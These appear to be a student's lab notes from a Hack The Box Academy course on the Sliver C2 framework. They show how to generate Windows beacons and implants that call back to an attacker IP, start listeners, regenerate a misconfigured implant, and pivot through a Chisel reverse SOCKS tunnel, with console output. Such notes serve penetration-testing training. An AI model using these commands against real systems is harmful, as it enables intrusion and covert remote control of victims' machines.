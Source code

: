 
### Server initialization examples
- start server on kali
```bash
sliver-server
```
- generate a beacon
```shell-session
generate beacon --http 10.10.14.62:9001 --skip-symbols --os windows --arch amd64 -N http-beacon-9001 --save <directory>
```
- generate an implant
```shell-session
generate --http 10.10.16.14:8088 --skip-symbols --os windows --arch amd64 --format exe --save <directory>
```
- start listeners
```shell-session
http -L 10.10.16.14 -l 8088 --website delivery
```
```shell-session
http -L 10.10.16.14 -l 9001
```

Need to transfer the implant, beacon, or both to the victim machine and execute the payloads to receive a connection back to the sliver server instance.

#### Making a mistake in the ip address for a implant of some kind and how to regenerate it

- use command `implants` to list all the generated implants
- `implants rm <implant name>` will delete the implant from the list
- regenerate the implant as shown below:
```shell-session
[server] sliver > generate beacon --http 10.10.16.14:9001 --skip-symbols --os windows --arch amd64 -N http-beacon-9001 --save /home/roger/Documents/HTB/Academy/Sliver/Pivoting

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[!] Symbol obfuscation is disabled
[!] rpc error: code = Unknown desc = UNIQUE constraint failed: implant_builds.name

[server] sliver > implants

 Name                Implant Type   Template   OS/Arch             Format   Command & Control              Debug 
=================== ============== ========== =============== ============ ============================== =======
 ACCEPTED_SNOWPLOW   session        sliver     windows/amd64   EXECUTABLE   [1] https://10.10.16.14        false 
 BOLD_WHIP           session        sliver     windows/amd64   EXECUTABLE   [1] https://10.10.16.14:8088   false 
 http-beacon-9001    beacon         sliver     windows/amd64   EXECUTABLE   [1] https://10.10.14.62:9001   false 

[server] sliver > help implants

List implant builds

Usage:
======
  implants [flags]

Flags:
======
  -a, --arch          string    filter builds by cpu architecture
  -f, --format        string    filter builds by artifact format
  -h, --help                    display help
  -d, --no-debug                filter builds by debug flag
  -b, --only-beacons            filter beacons
  -s, --only-sessions           filter interactive sessions
  -o, --os            string    filter builds by operating system
  -t, --timeout       int       command timeout in seconds (default: 60)

Sub Commands:
=============
  rm  Remove implant build

[server] sliver > implants rm http-beacon-9001

? Remove 'http-beacon-9001' build? Yes

[server] sliver > generate beacon --http 10.10.16.14:9001 --skip-symbols --os windows --arch amd64 -N http-beacon-9001 --save /home/roger/Documents/HTB/Academy/Sliver/Pivoting

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[!] Symbol obfuscation is disabled
[*] Build completed in 1s
[*] Implant saved to /home/roger/Documents/HTB/Academy/Sliver/Pivoting/http-beacon-9001.exe

```

### Pivoting using Chisel

- make sure proxychains.conf is configured for socks5 port 9050
- start chisel server on attack box outside of sliver
```bash
./chisel_1.8.1_linux_arm64 server --reverse -p 1337 -v --socks5
```
- send chisel command to beacon
```shell-session
chisel client 10.10.16.14:1337 R:socks
```
- wait for the beacon to execute the connection
```bash
 ./chisel_1.8.1_linux_arm64 server --reverse -p 1337 -v --socks5
2024/06/19 16:06:41 server: Reverse tunnelling enabled
2024/06/19 16:06:41 server: Fingerprint agCO4/5IHu/zX9sZcA81hln7RTIHGtFsTZIugte3jh0=
2024/06/19 16:06:41 server: Listening on http://0.0.0.0:1337
2024/06/19 16:08:09 server: session#1: Handshaking with 10.129.205.234:49898...
2024/06/19 16:08:10 server: session#1: Verifying configuration
2024/06/19 16:08:10 server: session#1: Client version (v1.8.1) differs from server version (1.8.1)
2024/06/19 16:08:10 server: session#1: tun: Created (SOCKS enabled)
2024/06/19 16:08:10 server: session#1: tun: SSH connected
2024/06/19 16:08:10 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
2024/06/19 16:08:10 server: session#1: tun: Bound proxies

```
- need to start socks5 on sliver-server
```shell-session
socks5 start -P 9050
```
